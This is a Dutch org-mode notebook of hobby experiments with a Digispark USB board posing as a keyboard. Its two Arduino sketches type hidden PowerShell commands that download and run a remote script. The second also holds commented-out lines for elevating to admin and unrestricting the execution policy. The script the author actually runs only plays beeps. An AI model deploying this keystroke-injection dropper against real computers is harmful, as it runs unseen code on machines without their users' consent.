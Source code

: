 #+TITLE: Digispark speeltuin
#+auto_tangle: t


* Inhoud :toc:
- [[#about][About]]
- [[#execute_powershell_scriptino][Execute_Powershell_Script.ino]]
- [[#scriptps1][script.ps1]]
  - [[#oude-tests--][Oude tests :-)]]

* About
In deze org file speel ik met powershell scripts die ik in mijn cloud zet.


* Execute_Powershell_Script.ino

#+begin_src C :tangle Powershell.ino
#include "DigiKeyboard.h"

void setup() {
  // empty
}

void loop() {
  // Initialise digispark
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(600);

  // Opens the run dialog
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(600);

  // Writes the command
  DigiKeyboard.print("powershell -w h ");
  DigiKeyboard.print("iex (irm \"");
  DigiKeyboard.print("https://raw.githubusercontent.com/msr8/attiny85/main/Shell%20Scripts/powershell/speak.ps1");  // LINK HERE
  DigiKeyboard.print("\")");
  // Enters it
  DigiKeyboard.sendKeyStroke(KEY_ENTER);



  for (;;) {/* Stops the loop */}
}
#+end_src

#+RESULTS:

werkt niet goed:
#+begin_src C
//This DigiSpark scripts downloads and executes a powershell script in hidden mode.
// https://github.com/CedArctic/DigiSpark-Scripts/tree/master/Execute_Powershell_Script
#include "DigiKeyboard.h"
void setup() {
}

void loop() {
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(500);
  DigiKeyboard.print("powershell");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  //DigiKeyboard.delay(500);
  DigiKeyboard.delay(1000); //changed WAEL
  DigiKeyboard.print("$client = new-object System.Net.WebClient");
  DigiKeyboard.delay(500); //changed WAEL
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(500);
  DigiKeyboard.print("$client.DownloadFile(\"https://icefly.stackstorage.com/s/ygwhdjHFLOBog9YI\" , \"script.ps1\")");
  // not long enough: DigiKeyboard.delay(1000);
  DigiKeyboard.delay(2000); //changed WAEL
  DigiKeyboard.sendKeyStroke(KEY_ENTER); //changed WAEL
  DigiKeyboard.delay(500); //changed WAEL
  DigiKeyboard.sendKeyStroke(0, MOD_GUI_LEFT | KEY_R);
  DigiKeyboard.delay(750);
  //If the system hasn't been configured to run scripts, uncomment the lines bellow
  //DigiKeyboard.print("powershell Start-Process cmd -Verb runAs");
  //DigiKeyboard.sendKeyStroke(KEY_ENTER);
  //DigiKeyboard.delay(750);
  //DigiKeyboard.sendKeyStroke(MOD_ALT_LEFT, KEY_Y);
  //DigiKeyboard.delay(750);
  //DigiKeyboard.print("powershell Set-ExecutionPolicy 'Unrestricted' -Scope CurrentUser -Confirm:$false");
  //DigiKeyboard.sendKeyStroke(KEY_ENTER);
  //DigiKeyboard.delay(750);
  DigiKeyboard.print("powershell.exe -windowstyle hidden -File %USERPROFILE%\\script.ps1");
  DigiKeyboard.delay(500); //changed WAEL
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  for (;;) {
    /*empty*/
  }

}
#+end_src

#+RESULTS:


* script.ps1
Mijn huidige script staat hier onder. Deze staat in mijn cloud en klaar om gebruikt te worden met mijn digispark.

#+begin_src shell :tangle script.ps1
[System.Console]::beep(440, 500)
[System.Console]::beep(440, 500)
[System.Console]::beep(440, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 1000)
[System.Console]::beep(659, 500)
[System.Console]::beep(659, 500)
[System.Console]::beep(659, 500)
[System.Console]::beep(698, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(415, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 1000)
exit 0 # success
#+end_src




** Oude tests :-)
